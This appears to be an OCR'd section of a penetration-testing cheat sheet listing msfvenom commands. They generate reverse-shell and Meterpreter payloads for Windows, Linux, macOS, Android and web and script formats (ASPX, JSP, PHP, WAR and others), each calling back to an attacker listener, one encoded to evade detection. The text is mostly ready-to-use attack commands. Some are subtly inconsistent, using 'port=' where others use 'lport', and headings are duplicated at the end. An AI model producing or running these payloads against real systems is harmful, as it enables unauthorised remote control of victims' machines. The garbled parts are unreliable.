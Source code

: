 > 
<h3>5.1、 Windows</h3>
msfvenom -a x86 --platform windows  -p windows/meterpreter/reverse_tcp -i 3  LHOST=192.168.190.131 lport=4444 -e x86/shikata_ga_nai -f exe -o /root/payload.exe
<hr/>

<h3>5.2、Linux</h3>
msfvenom --platform linux -a x86 -p linux/x86/meterpreter/reverse_tcp  lhost=192.168.190.131 lport=4444 -f elf -o /root/payload.elf
<hr/>
<h3>**5.3、Mac**</h3>
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp lhost=192.168.190.131 port=4444 -f macho -o payload.macho
<hr/>
<h3>5.4、Android</h3>
msfvenom -p android/meterpreter/reverse_tcp -o /root/payload.apk
<hr/>
<h3>5.5、Aspx</h3>
msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.190.131 lport=4444 -f aspx -o /root/payload.aspx
<hr/>
<h3>5.6、JSP</h3>
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.190.131 lport=4444 -f raw -o /root/payload.jsp
<hr/>
<h3>5.7、PHP</h3>
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.190.131 lport=4444 -f raw -o /root/payload.php
<hr/>
<h3>5.8、BASH</h3>
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.190.131 lport=4444 -f raw -o /root/shell.sh
<hr/>
<h3>5.9、Python</h3>
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.190.131 port=4444 -f raw -o /root/shell.py
<hr/>
<h3>5.10、War</h3>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.190.131 lport=4444 -f war
<hr/>
<h3>5.11、Perl</h3>
msfvenom -p cmd/unix/reverse_perl lhost=192.168.190.131 lport=4444 -f perl
<hr/>
<h3>5.12、Asp</h3>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.190.131 port=4444 -f asp


### 5.2、Linux

---


### 5.4、Android

---
